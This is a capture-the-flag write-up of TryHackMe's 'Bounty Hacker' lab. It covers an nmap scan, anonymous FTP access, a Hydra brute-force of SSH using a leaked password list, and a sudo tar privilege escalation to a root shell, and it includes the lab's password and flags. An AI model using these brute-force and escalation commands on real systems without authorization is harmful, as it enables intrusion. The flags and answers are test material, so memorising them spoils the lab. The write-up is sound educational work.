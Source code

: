 # Bounty Hunter Writeup (Easy)
### TryHackMe 
### Ean Dudley, 12/20/2021

### Task 1: Deploy The Machine 
Connect to the machine via the attack box or openvpn 

### Task 2: Find Open Ports 
I used NMAP to find open ports using the following syntax: 

``` bash
sudo nmap -sC -sV [TargetIP]
``` 

I got the following return: 

``` bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:11 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.94 seconds
```

Lets add the the flag ``` -Pn ``` and see if we can find any open ports. 
``` bash 
sudo nmap -sC -sV -Pn [TargetIP] 
```

Using the -Pn flag was successful and the following output was given: 
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:12 EST
Nmap scan report for 10.10.79.132
Host is up (0.14s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.77.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.40 seconds
```

There seem to be three ports running services that may be helpful: 
	Port 21 FTP 
	Port 22: SSH
	Port 80: TCP 

FTP also has anonymous login available to access two files: 
	- task.txt
	- locks.txt 
	
### Task 3: Who wrote the task list? 

FTP has a file called task.txt and anonymous access. Lets login to FTP and see if we can find out who wrote the tasklist. 

``` bash 
ftp [targetIP]
``` 

After executing this command you should get the following output, and be prompted for the name (See line 3 of the following output).  Enter: 'anonymous' to take advantage of the FTP anonymous login. 

```bash
Connected to 10.10.79.132.
220 (vsFTPd 3.0.3)
Name (10.10.79.132:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now you should see your prompt change to ```ftp>``` and you can begin using FTP to read the files. Lets get both files onto our local machine and then read them. 

``` bash
ftp> get 
(remote-file) task.txt
(local-file) task.txt 

ftp> get 
(remote-file) lock.txt
(local-file) lock.txt
```

Back on our local machine lets read these files, starting with task.txt. 

``` bash
cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We get our **Answer** for task 3: **lin**

### Task 4:  What service can you bruteforce with the text file found?

We can bruteforce** SSH** using Hydra since we have a username. Conveniently, the lock.txt file has a list of what appears to be passwords so we can run a wordlist based attack on SSH to login. 

### Task 5: What is the users password? 

Lets use **Hydra** as we talked about before to run an attack on SSH using the username lin. 

``` bash 
hydra -l lin -P locks.txt 10.10.79.132 -t 4 ssh
``` 

The ``` -l ``` flag specifies the username and the ``` -P ``` flag specifies the password list. The ``` -t 	``` flag is used to specifie the number of thread to use for the attack. Hydra recommends 4 threads for SSH. 

After running this command we should get the following output: 
``` bash 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-20 13:21:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.79.132:22/
[22][ssh] host: 10.10.79.132   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-20 13:21:37
``` 

We see that our password is: **RedDr4gonSynd1cat3**. 

### Task 6: user.txt 

Login to ssh using ``` lin@[targetIP]``` and when prompted for the password use the answer from question 4. 

After loging into the system use cat to read the user.txt file: 
``` bash 
cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

**Flag: THM{CR1M3_SyNd1C4T3}**

### Task 7: root.txt 

Now that we have an inital foothold, lets try to gain root access. To start lets see if we have authroization to run anything as root that we may be able to exploit: 

```bash
sudo -l 
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

``` 

We see that we have authroization to run ``` tar ``` as root. We can exploit this by using the following command: 

``` bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


*If you are unsure how to exploit tar, there are a lot of good resources online. This one is my favourite: https://gtfobins.github.io/gtfobins/tar/*

We should not be able to pop a shell with root access: 

``` bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
cat /root/root.txt
THM{80UN7Y_h4cK3r}
``` 

We get our **root flag: THM{80UN7Y_h4cK3r}**

### Summary 
We initally scan this machine using nmap and have to force ports to respond using the  -Pn option. From NMAP we see that we can login to FTP anonymous access in order to read a tasklist and a password list. We can then use that passowrd list and the username found in the tasklist to brute-force an attack on SSH using Hydra. Using the login credentials to SSH found by Hydra, we can login and get our inital access. Then we can use sudo on the target machine to find if there are any vulnerable commands we can utilize to get root access. Sudo shows that tar is able to be executed at a super user level, and we are able to exploit tar to get root level access. 
